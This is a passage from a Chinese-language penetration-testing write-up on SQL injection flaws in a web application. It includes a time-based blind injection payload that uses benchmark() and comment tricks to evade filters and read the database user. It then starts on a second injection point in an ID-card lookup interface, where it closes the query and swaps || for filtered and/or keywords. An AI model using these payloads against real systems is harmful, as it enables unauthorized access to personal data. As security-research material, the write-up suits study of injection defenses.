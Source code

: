 ```
1%20or%20Y(point(56.7,53.34))%20or%20(select/**/0/**/from/**/(select/**/if((ascii(right(left(user/*!55555*/(),1),1))!=1),(select/*!55555555555555555*/benchmark(511111111,1)),1))x)
```

  
  
发现使用了两个or，而Y()是恒为真的，但是我们依旧无法判断ordertype=1是否存在，如果不存在的话，那么ordertype=1为假，而Y()为真，我们最后的注入语句就无法实现精准判断，所以我们这里使用子查询语句，就不用考虑ordertype=1的真假性。  
  
系统先执行内层语句，也就是  

```
select if((ascii(right(left(user/*!55555*/(),1),1))!=1),(select/*!5555555555555555555555*/benchmark(51111111,1),1))
```

  
  

```
select 0 from () x
```

  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpqR1VucyhHa6NCiaeyU7hJLUEKXP7FHWfU9udlEbMn9AWd9Z2ujIj4R5g/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
达到了一个时间盲注的目的。  
  
  
**4**  
►  
  
**第三处SQL注入**  
  
  
这是一个拿身份证查信息的接口，tj是注入点，加一个单引号可以看到进行报错。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpqAUbRABsmCIkzpR2Zx5DeibXVVas7TmxNp4DpkL4iccCEcZBN0WDrhhbg/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
多加几个单引号，分析一下。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpqbaiac5vYSWPNgju7jMA5o1kthNA76Qfcm1LZYgEGa6PItoKlfzIEezw/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
可以看到原本的逻辑应该是 sfzh='123123' and xm='12331'，这里的123123是我随便输入的身份证号,12331是我随意输入的姓名。  
  
于是构造闭合，直接让
```
tj=sfzh=1#
```

  
,这样进行闭合，这样就变成了 
```
sfzh=1 and (注入语句) #
```

  
 然后这里and or 被过滤了，我选择使用 || 来代替，发现 
```
|| 1=1#
```
